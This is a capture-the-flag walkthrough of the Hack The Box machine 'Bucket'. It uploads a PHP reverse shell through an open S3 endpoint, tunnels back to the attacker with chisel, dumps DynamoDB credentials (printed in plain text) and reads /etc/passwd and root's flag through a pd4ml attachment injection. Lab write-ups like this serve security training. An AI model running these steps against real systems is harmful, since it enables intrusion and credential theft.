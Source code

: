 Started with a nmap scan
```
22 OpenSSH 8.2p1
80 Apache 2.4.41
```
The nmap scan shows there is a redirect to `http://bucket.htb/` doing a subdomain scan did not find any subdomains but when looking at the site its a static site but there is one subdomain `s3` which means we probley have to exploit amazon s3 bucket also hints from the name of the machine but going to check if there is any thing on the site going to start a gobuster scan
```
/index.html

s3 buckets
/shell  redirects 444af250749d:4566/shell/
/health
```
were going to  list all the buckets  `aws --endpoint-url http://s3.bucket.htb s3 ls` and we get `adserver` so now going to test if we can upload files and we can `aws --endpoint-url http://s3.bucket.htb s3 mv ./test.txt s3://adserver/` and if we go to `s3.bucket.htb/adserver/test.txt` and we get the contents of the file back now to add a reverse shell `aws --endpoint-urlhttp://s3.bucket.htb s3 cp shell.php s3://adserver` now we start the listener and got to `http://bucket.php/shell.php` and now we are `www-data` looking around on the file system we can go to the `roy` user project folder and we can read `db.php` which is hosting `DynamoDB` and we need to use aws client which is also on the host to connect to it since we cant configure creds on the machine we need to put chisel on the host and set a reverse proxy so on are host we do `chsiel server --reverse --port 8000` and on the machine we do `chisel client are-ip:8000 R:4566:localhost:4566` now we need to enumerate the DynamoDB with this command we list the buckets `aws dynamodb list-tables --region us-east-1 --endpoint-url http://localhost:4566` and we get a table name of `users` now we need to discribe the table `aws dynamodb describe-table --table-name users --region us-east-1 --endpoint-url http://localhost:4566` now to dump whats in side the table `aws dynamodb scan --table-name users --region us-east-1 --endpoint-url http://localhost:4566` and we got some users and passwords now 
```
Mgmt:Management@#1@#
Cloudadm:Welcome123!
sysadm:n2vM-<_K_Q:.Aa2
```
and with one of these logins we can get to the `roy` user while enumerating the host as roy we find another bucket site on port `8000` so we also forward this port with SSH to make it easy and its not much but looking at the source code of the` index.php` file we can see we need to use the site to make a PDF file with the title `Ransomware` and we can do this from are host with this command this one makes the tables
```
aws --endpoint-url=http://localhost:4566 dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE -- provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
```
and this one makes the PDF
```
aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"

# test

"}}'
```
and now we have the pdf file and a html file after that we need to run this to make the PDF on the host
`curl http://localhost:8000/index.php -d 'action=get_alerts'`
and now we can download the file from `http://localhost:8000/files/result.pdf` and we can see in the tags that its `pd4ml` and we can also embed attachments into the pdf file so we can run this command
```
aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src='\''file:///etc/passwd'\'' description='\''test'\'' icon='\''Paperclip'\''/></html>"}}'
```
and now we can open the attachment and we see the `/etc/passwd` and now we can do the same for `/root/root.txt` and we have the final flag 